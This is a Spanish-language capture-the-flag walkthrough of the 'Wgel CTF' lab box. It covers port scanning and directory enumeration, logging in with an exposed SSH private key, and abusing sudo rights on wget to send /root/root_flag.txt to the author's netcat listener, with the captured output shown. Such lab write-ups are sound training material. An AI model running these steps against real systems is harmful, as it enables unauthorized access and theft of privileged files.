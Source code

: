 # [Task 1] Wgel CTF 26/10/2019
Have fun with this easy box.
### Antes de nada scaneo
```
$ nmap -Pn -sT -p- -O -sC -sV -T5
```
<p>
Es scaner nos indica la existencia de dos puertos, 22 y 80. Abrimos navegador y nos vamos al servidor http. La conexión solo muestra la página de información de apache, pero si vemos el código fuente nos desvela la existencia del comentario:
<p>
 
```
!-- Jessie don't forget to udate the webiste -->
```

<p>
Pasamos a enumerar las páginas:
<p>
 
```
gobuster dir -u http://IP/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
```
<p>
Nos quedamos con el directorio sitemap y volvemos a enumerar.
<p>
 
 ```
gobuster dir -u http://IP/sitemap -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q 
 ```

<p>
Esta vez nos hemos encontrado con un directorio muy interesante  **/.ssh** Cuando nos conectamos a esa página vemos el fichero con la clave privada de ssh. Dado que sólo tenemos un usuario, probamos a conectarnos vía ssh al server. Antes de nada hay que cambiar los permisos al fichero.
 
 ```
 $ chmod 600 id_rsa
 $ ssh -i ./id_rsa jessie@ip
 ```
 Pasen, están en su casa :D
 La primera bandera a buscar es la de user_flag.txt, la cual está ubicada en .... home de ese user.
 
 La siguiente bandera es la de root. Lo primero de todo es saber lo que se puede hacer con ese usuario, 
 
 ```
 $ sudo -l -l
 
```
Podemos ejecutar /usr/bin/wget sin meter la clave. Pues adelante.
Para obtener el fichero root_flag.txt, abrimos un puerto en mi máguina local con un netcat y hacemos un post del fichero root a mi máquina.

```
En local
$ nc -lvnp 1234

En el server
sudo /usr/bin/wget --post-file=/root/root_flag.txt IP_Local:port

En local
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.183.40.
Ncat: Connection from 10.10.183.40:43980.
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.13.25:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1xxxxxxxxxxxxxxxxxxxxxxxxxxxxx3d

```

ya tenmeos la flag de root.
 
### #1	User flag<p>
### Solución:

```Answer format: 05****************************f6```


### #2	Root flag<p>
### Solucion: 

```Answer format: b1****************************3d```


